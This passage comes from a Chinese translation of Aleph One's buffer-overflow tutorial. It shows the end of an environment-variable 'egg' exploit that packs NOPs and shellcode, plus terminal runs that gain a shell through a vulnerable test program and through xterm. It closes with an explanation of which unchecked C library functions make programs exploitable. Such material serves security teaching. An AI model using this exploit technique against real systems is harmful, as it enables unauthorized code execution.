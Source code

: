 ```c
    for (i = 0; i < eggsize - strlen(shellcode) - 1; i++)
        *(ptr++) = NOP;

    for (i = 0; i < strlen(shellcode); i++)
        *(ptr++) = shellcode[i];

    buff[bsize - 1] = '\0';
    egg[eggsize - 1] = '\0';

    memcpy(egg,"EGG=",4);
    putenv(egg);
    memcpy(buff,"RET=",4);
    putenv(buff);
    system("/bin/bash");
}
```

用这个新的破解程序来试试我们的漏洞测试程序:

```

[aleph1]$ ./exploit4 768
Using address: 0xbffffdb0
[aleph1]$ ./vulnerable $RET
$
```

成功了, 再试试xterm:

```
[aleph1]$ export DISPLAY=:0.0
[aleph1]$ ./exploit4 2148
Using address: 0xbffffdb0
[aleph1]$ /usr/X11R6/bin/xterm -fg $RET
Warning: Color name

(此处截断多行输出)

Warning: some arguments in previous message were lost
$
```

一次成功! 它显著提高了我们的成功率. 依赖于破解程序和被破解程序比较环境数据的多少, 我们推测的地址可能高也可能低于真值. 正和负的偏移量都可以试一试.


## 寻找缓冲区溢出漏洞

如前所述, 缓冲区溢出是向一个缓冲区填充超过其处理能力的信息造成的结果. 由于C语言没有任何内置的边界检查, 写入一个字符数组时, 如果超越了数组的结尾就会造成溢出. 标准C语言库提供了一些没有边界检查的字符串复制或添加函数. 包括`strcat()`, `strcpy()`, `sprintf()`, 和`vsprintf()`. 这些函数对一个`null`结尾的字符串进行操作, 并不检查溢出情况. `gets()`函数从标准输入中读取一行到缓冲区中, 直到换行或EOF. 它也不检查缓冲区溢出. `scanf()`函数族在匹配一系列非空格字符(`%s`), 或从指定集合(`%[]`)中匹配非空系列字符时, 使用字符指针指向数组, 并且没有定义最大字段宽度这个可选项, 就可能出现问题. 如果这些函数的目标地址是一个固定大小的缓冲区, 函数的另外参数是由用户以某种形式输入, 则很有可能利用缓冲区溢出来破解它.


另一种常见的编程结构是使用`while`循环从标准输入或某个文件一次将一个字符读取到缓冲区中, 直到行尾或文件结尾, 或者碰到别的什么终止符. 这种结构通常使用`getc()`, `fgetc()`, 或`getchar()`函数中的某一个. 如果在`while`循环中没有明确的溢出检查, 这种程序就很容易被破解.
